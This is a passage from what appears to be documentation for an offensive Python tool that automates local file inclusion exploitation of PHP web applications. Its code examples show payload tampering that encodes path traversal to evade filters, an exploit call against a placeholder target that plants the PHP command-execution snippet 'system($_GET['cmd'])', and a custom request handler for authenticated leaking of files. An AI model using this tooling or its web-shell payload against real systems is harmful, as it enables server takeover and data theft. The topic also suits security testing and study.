 ```python
    print(output)
```

### Advanced Configuration

```python
from elle_est_fit import LFI

# Custom tampering function
def my_tamper(payload):
    # Perform custom modifications to the payload
    return payload.replace("..", "%2e%2e")

# Create an LFI instance with advanced options
lfi = LFI(
    target="http://vulnerable.com/index.php?file={}",
    technique="php_filters",
    double_url_encode=True,
    tamper=my_tamper,
    php_code="echo system($_GET['cmd']);"
)

# Attempt exploitation
lfi.exploit()
```

### Custom Request Handler

For cases where the built-in HTTP handling doesn't work (e.g., complex authentication, custom headers):

```python
from elle_est_fit import LFI

# Custom leak function that handles file retrieval
def custom_leak_function(file_path):
    # Implement custom HTTP request handling
    # Example: add special headers, handle authentication, etc.
    import requests
    
    url = f"http://vulnerable.com/index.php?file={file_path}"
    headers = {
        "Authorization": "Bearer token123",
        "X-Custom-Header": "value"
    }
    
    response = requests.get(url, headers=headers)
    return response.text

# Create LFI with custom leak function
lfi = LFI(
    leak_function=custom_leak_function,
    technique="php_filters"
)

# Note: When using a custom leak function, 
# you don't need to specify the target URL
```
